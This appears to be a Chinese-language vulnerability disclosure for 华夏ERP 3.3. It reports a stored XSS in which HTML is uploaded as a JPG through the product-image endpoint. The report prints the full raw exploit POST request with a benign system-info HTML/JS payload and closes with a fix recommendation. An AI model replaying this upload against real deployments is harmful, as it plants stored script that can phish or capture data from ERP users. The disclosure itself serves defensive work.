




# 华夏ERP 3.3

华夏ERP 3.3在商品图片上传处可以上传html代码放进jpg文件中并进行解析，通过返回的存储文件的路径，访问后可能造成钓鱼、通过js获取敏感信息、键盘记录、CSRF等威胁。并且由于该图片是商品图片，属于存储型XSS，在用户端可能存在更大危害。



在上一个版本中对文件上传做出了如下修改，但是没有对文件内容进行逻辑判断



exp

```
POST /jshERP-boot/systemConfig/upload HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 2167
sec-ch-ua: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3CelDtwnJf0hINF3
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
X-Access-Token: 0ea7357090ee46f3ae40120575b06aae_63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
sec-ch-ua-platform: ""
Accept: */*
Origin: http://127.0.0.1:3000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/material/material
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_0febd9e3cacb3f627ddac64d52caac39=1718694470; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1718781427; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1718781572
Connection: close

------WebKitFormBoundary3CelDtwnJf0hINF3
Content-Disposition: form-data; name="biz"

material
------WebKitFormBoundary3CelDtwnJf0hINF3
Content-Disposition: form-data; name="file"; filename="1663681959059.jpg"
Content-Type: image/jpeg

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>System Information</title>
<style>
body {
font-family: Arial, sans-serif;
}
.info {
margin-bottom: 20px;
}
</style>
</head>
<body>
<h1>System Information</h1>
<div class="info">
<strong>User Agent:</strong><span id="userAgent"></span>
</div>
<div class="info">
<strong>Platform:</strong><span id="platform"></span>
</div>
<div class="info">
<strong>Language:</strong><span id="language"></span>
</div>
<div class="info">
<strong>Online Status:</strong><span id="onlineStatus"></span>
</div>
<div class="info">
<strong>Screen Resolution:</strong><span id="screenResolution"></span>
</div>
<div class="info">
<strong>Browser Window Size:</strong><span id="windowSize"></span>
</div>
<div class="info">
<strong>Time Zone:</strong><span id="timeZone"></span>
</div>
<div class="info">
<strong>Cookie Enabled:</strong><span id="cookieEnabled"></span>
</div>
<script>
function getSystemInfo() {
document.getElementById('userAgent').textContent =
navigator.userAgent;
document.getElementById('platform').textContent =
navigator.platform;
document.getElementById('language').textContent = navigator.language
|| navigator.userLanguage;
document.getElementById('onlineStatus').textContent =
navigator.onLine ? 'Online' : 'Offline';
document.getElementById('screenResolution').textContent =
`${screen.width} x ${screen.height}`;
document.getElementById('windowSize').textContent =
`${window.innerWidth} x ${window.innerHeight}`;
document.getElementById('timeZone').textContent =
Intl.DateTimeFormat().resolvedOptions().timeZone;
document.getElementById('cookie').textContent =
navigator.cookieEnabled ? 'Enabled' : 'Disabled';
}
window.onload = getSystemInfo;
</script>
</body>
</html>
------WebKitFormBoundary3CelDtwnJf0hINF3--
```





## 修复建议

增加检查文件内容逻辑，防止恶意代码嵌套